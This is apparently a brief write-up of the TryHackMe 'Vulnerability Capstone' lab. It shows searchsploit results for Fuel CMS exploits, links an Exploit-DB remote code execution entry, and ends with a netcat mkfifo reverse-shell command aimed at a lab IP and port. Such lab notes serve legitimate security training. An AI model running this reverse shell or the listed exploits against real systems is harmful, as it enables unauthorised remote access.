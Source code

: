 # Vulnerability Capstone
Room Link: https://tryhackme.com/room/vulnerabilitycapstone
```
root@ip-10-10-221-106:~# searchsploit fuel cms
[i] Found (#2): /opt/searchsploit/files_exploits.csv
[i] To remove this message, please edit "/opt/searchsploit/.searchsploit_rc" for "files_exploits.csv" (package_array: exploitdb)

[i] Found (#2): /opt/searchsploit/files_shellcodes.csv
[i] To remove this message, please edit "/opt/searchsploit/.searchsploit_rc" for "files_shellcodes.csv" (package_array: exploitdb)

---------------------------------------------- ---------------------------------
 Exploit Title                                |  Path
---------------------------------------------- ---------------------------------
Fuel CMS 1.4.7 - 'col' SQL Injection (Authent | php/webapps/48741.txt
fuelCMS 1.4.1 - Remote Code Execution         | linux/webapps/47138.py
---------------------------------------------- ---------------------------------
Shellcodes: No Results

```
Exploit DB Detail: https://www.exploit-db.com/exploits/47138


cmd:rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1 | nc 10.10.221.106 5345 >/tmp/f

